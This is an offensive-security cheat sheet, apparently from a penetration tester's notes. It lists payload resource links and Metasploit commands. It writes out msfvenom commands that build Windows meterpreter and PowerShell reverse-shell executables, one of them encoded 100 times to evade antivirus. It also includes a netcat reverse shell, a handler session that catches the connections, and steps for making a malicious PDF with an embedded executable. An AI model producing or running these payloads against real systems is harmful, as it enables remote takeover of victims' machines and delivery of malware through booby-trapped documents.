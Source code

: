 ### [Payload Resources]
https://netsec.ws/?p=331  
https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/  
https://github.com/nccgroup/Winpayloads  
https://github.com/xephora/PayloadsAllTheThings  
https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom  
https://www.offensive-security.com/metasploit-unleashed/fun-incognito/  

# [Generating Payloads on Windows using Metasploit]

### [Regular Reverse TCP]
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOURIP LPORT=YOURPORT -f exe > shell.exe
[Poly Morphic Reverse TCP]
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOURIP LPORT=YOURPORT -e x64/shikata_ga_nai -i 100 -f exe > file.exe

Creating a reverse tcp netcat comamnd
msfvenom -p cmd/unix/reverse_netcat lhost=<IP> lport=<port> R
```

### [Unique Reverse TCP]
```
msfvenom -p windows/powershell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > pshell.exe
```

### [Handler]
msf5 > use exploit/multi/handler

msf5 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp

PAYLOAD => windows/x64/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > set LHOST eth0

LHOST => tun0

msf5 exploit(multi/handler) > set LPORT 32119

LPORT => 32119

msf5 exploit(multi/handler) > run

### [PDF]
```
Creating malicious PDF
use exploit/windows/fileformat/adobe_pdf_embedded_exe

set payload windows/meterpreter/reverse_tcp
set INFILENAME x.pdf
set FILENAME x.pdf
exploit
```

